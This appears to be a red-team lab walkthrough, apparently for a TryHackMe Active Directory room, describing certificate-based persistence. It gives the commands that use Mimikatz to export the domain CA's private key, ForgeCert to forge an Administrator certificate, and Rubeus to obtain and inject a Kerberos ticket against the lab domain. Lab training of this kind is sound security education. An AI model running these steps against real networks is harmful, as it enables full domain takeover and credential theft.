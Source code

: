 # Persistence through certificates

**A quick note here. These techniques are incredibly invasive and hard to remove. Even if you have sign-off on your red team exercise to perform these techniques, you must take the utmost caution when performing these techniques. In real-world scenarios, the exploitation of most of these techniques would result in a full domain rebuild. Make sure you fully understand the consequences of using these techniques and only perform them if you have prior approval on your assessment, and they are deemed necessary. In most cases, a red team exercise would be dechained at this point instead of using these techniques. Meaning you would most likely not perform these persistence techniques but rather simulate them.**

In [Exploiting certificates](../exploit/certificates.md), certificates were leveraged to become Domain Admins. 
Certificates can also be used for persistence.

* This attack revolves around taking the private key of the Certificate Authority (CA) of the domain.
* Armed with the private key, the attacker can now effectively "approve" their own Certificate Signing Requests (CSRs) and generate certificates to any user they please.
* In Kerberos authentication, a user can authenticate by providing their public key.

SSH to the domain controller using the [given domain administrator credential](setup.md). Since the Active Directory 
Certificate Services (AD CS) services is running on the domain controller, the attack is executed on this host.

    ssh administrator@za.tryhackme.loc@thmdc.za.tryhackme.loc

## Extract the CA's Private Key

    powershell -ep bypass

Start Mimikatz:

    C:\Tools\mimikatz_trunk\x64\mimikatz.exe

Enumerate certificates

    mimikatz # crypto::certificates /systemstore:local_machine

Elevate privileges:

    mimikatz # privilege::debug

Allow certificate export without private key:

    mimikatz # crypto::capi
    mimikatz # crypto::cng

Export the certificates with private keys:

    mimikatz # crypto::certificates /systemstore:local_machine /export

Exit:

    mimikatz # exit

## Create a certificate for the domain administrator account

List the certificate files. `local_machine_My_1_za-THMDC-CA.pfx` is the CA's certificate with the private key:

    Get-ChildItem .\*.pfx

    C:\Tools\ForgeCert\ForgeCert\ForgeCert.exe --CaCertPath .\local_machine_My_1_za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject 'CN=Pwned' --SubjectAltName 'Administrator@za.tryhackme.loc' --NewCertPath .\domain-admin.pfx --NewCertPassword pwned123

Create the TGT using Rubeus and save it locally:

    C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:'.\domain-admin.pfx' /password:'pwned123' /outfile:domain-admin.kirbi /domain:za.tryhackme.loc /dc:10.200.88.101

Use Mimikatz to inject the ticket into the session:

    C:\Tools\mimikatz_trunk\x64\mimikatz.exe
    
    mimikatz # kerberos::ptt domain-admin.kirbi

Exit:

    mimikatz # exit

Browse:

    dir \\thmdc.za.tryhackme.loc\C$\Users


